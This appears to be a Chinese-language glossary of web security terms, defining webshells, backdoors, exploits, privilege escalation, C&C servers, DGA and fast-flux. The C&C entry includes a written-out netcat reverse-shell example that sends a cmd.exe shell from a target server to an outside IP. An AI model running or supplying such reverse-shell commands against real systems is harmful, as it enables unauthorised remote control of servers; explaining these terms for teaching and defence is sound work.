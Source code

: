 Web 安全术语
================================

后门
--------------------------------
绕过安全控制而获取对程序或系统访问权的方法。后门的最主要目的就是方便以后再次秘密进入或者控制系统。

Webshell
--------------------------------
Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称作为一种网页后门。

0day漏洞
--------------------------------
通常是指还没有补丁的漏洞。也就是说官方还没有发现或者是发现了还没有开发出安全补丁的漏洞。

Exploit
--------------------------------
简称 exp，漏洞利用。

提权
--------------------------------
提高自己在服务器中的权限，主要针对网站入侵过程中，当入侵某一网站时，通过各种漏洞提升 Webshell 权限以夺得该服务器权限。

跳板
--------------------------------
跳板，简单来说，就是在进行攻击或渗透时，不直接发起，而是控制一台中间主机来进行。这台中间主机就成为跳板。

拖库
--------------------------------
网站遭到入侵后，黑客窃取其数据库。

社会工程学
--------------------------------
一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段取得自身利益的手法，已成迅速上升甚至滥用的趋势。

Apt 攻击
--------------------------------
高级持续性威胁。 利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。

CC 
--------------------------------
CC = Challenge Collapsar，意为“挑战黑洞”，其前身名为Fatboy攻击，是利用不断对网站发送连接请求致使形成拒绝服务的目的。

C&C
--------------------------------
C&C服务器全称是 Command and Control Server，翻译过来就是命令和控制服务器.通常在做渗透测试的时候，在拿到一个 webshell的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。而有的 exp溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333.上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe.
上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

DGA
---------------------------------
DGA域名生成算法经常被用作恶意软件连接C2中控。在早期的僵尸网络中，控制者通常会把C&C服务器的域名或者IP地址硬编码到恶意程序中，僵尸主机通过这些信息定时访问C&C主机获取命令。但同时安全人员也能够通过逆向恶意程序，得到C&C服务器的域名或者IP，利用这些信息定位C&C主机，安全人员就可以隔断C&C主机从而破坏僵尸网络。恶意软件定期使用DGA算法生成为随机域名，有效绕过黑名单检测，尝试连接，寻找C2中控。如果一个生成的域名无法连接，便生成下一个DGA为随机域名进行连接尝试。IP被阻断C2换一个域名可以继续操作。大多数dga域名在互联网环境是访问不到的，为什么？因为没有注册，黑客可以在软件中会写多个dga域名，在确认使用攻击时注册若干个，然后中招的机器接入互联网就可以与dga域名进行通信了。

Fast-flux
---------------------------------
在正常的DNS服务器中，用户对同一个域名做DNS查询，在较长的一段时间内，无论查询多少次返回的结果基本上是不会改变的。Fast-flux技术是指不断改变域名和IP地址映射关系的一种技术，也就是说在短时间内查询使用Fast-flux技术部署的域名，会得到不同的结果.
 | 客户端两次访问www.example.com的过程如下：
 | 1)为了得到网站www.example.com的IP地址，客户端发起DNS查询。
 | 2)随后DNS服务器返回了一个IP地址1.2.3.4，同时TTL为一个很小的数值。
 | 3)客户端访问IP为1.2.3.4的服务器获取内容。
 | 4)IP为1.2.3.4的服务器响应请求，返回相应内容。
 | 5)客户端再次访问www.example.com，由于TTL过小，本地缓存的DNS记录失效，客户端需要再次向DNS服务器获取新的IP地址。
 | 6)此次DNS服务器返回了IP 4.3.2.1，这次的TTL仍然很小。
 | 7)客户端访问IP为4.3.2.1的服务器获取内容。
 | 8)IP为4.3.2.1的服务器响应请求，返回相应内容。

POC
---------------------------------
即Proof of Concept，漏洞验证程序，功能为检测漏洞是否存在。poc和exp(全称Exploit)的区别就是，poc是漏洞验证程序，exp是漏洞利用程序。

通用型漏洞
---------------------------------
有一定使用量或者说是用户量的第三方框架、软件、应用、系统等对应的漏洞，拿web层应用来说需要满足：
 | 1)两个站点以上使用了该应用，可参考cnvd（国家信息安全漏洞共享平台）的漏洞；
 | 2)路径固定、参数固定。